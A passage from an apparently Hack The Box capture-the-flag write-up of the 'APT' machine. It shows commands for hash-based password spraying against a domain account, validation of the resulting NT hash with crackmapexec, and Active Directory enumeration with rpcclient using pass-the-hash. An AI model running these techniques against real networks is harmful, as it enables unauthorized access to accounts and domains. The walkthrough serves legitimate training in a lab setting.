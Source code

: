 ```bash

nvim ADPwdSpray.py
# :%s/AF_INET/AF_INET6/g
```

<br />
<img src="{{ site.img_path }}/apt_writeup/APT_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have to customize the script to perform a brute force attack but using a single Domain username and a list of hashes. I have some problems with some libraries that I don't have installed, like **pwntools** (which with its status bars help me a lot in tracking an exploit), but I must install `pip2` first since I am running the script with `python2`. Once all the problems are solved I can run the script and I get a positive match, which with `crackmapexec` I can validate. Unfortunately the credentials are not useful to access via **WinRM**, but with `rpcclient` I can list some information and check that the **Domain admins Group** only has the user **Administrator** as the only valid account.

> **[Pwntools](https://pypi.org/project/pwntools/){:target="_blank"}** is a CTF framework and exploit development library. Written in **Python**, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

```bash
nvim ADPwdSpray.py
python2 ADPwdSpray.py apt htb.local 'henry.vinson'      # :(

mv ~/Downloads/get-pip.py .
chmod +x get-pip.py
python2.7 get-pip.py
pip2 install --upgrade setuptools
sudo apt-get install python-dev -y
pip2 install pwntools

python2 ADPwdSpray.py apt htb.local 'henry.vinson'
#   --> [+] Valid Login: henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb

crackmapexec smb apt -u 'henry.vinson' -H e53d87d42adaa3ca32bdb34a876cbffb
crackmapexec winrm apt -u 'henry.vinson' -H e53d87d42adaa3ca32bdb34a876cbffb      :(

rpcclient -U "" apt -N
    $> enumdomusers           # :(
rpcclient --help
#   --pw-nt-hash                             The supplied password is the NT hash
rpcclient -U "henry.vinson" apt --pw-nt-hash
    $> enumdomusers           # :)
    $> enumdomgroups

rpcclient -U "henry.vinson" apt --pw-nt-hash -c "querygroupmem 0x200"
rpcclient -U "henry.vinson" apt --pw-nt-hash -c "queryuser 0x1f4"
```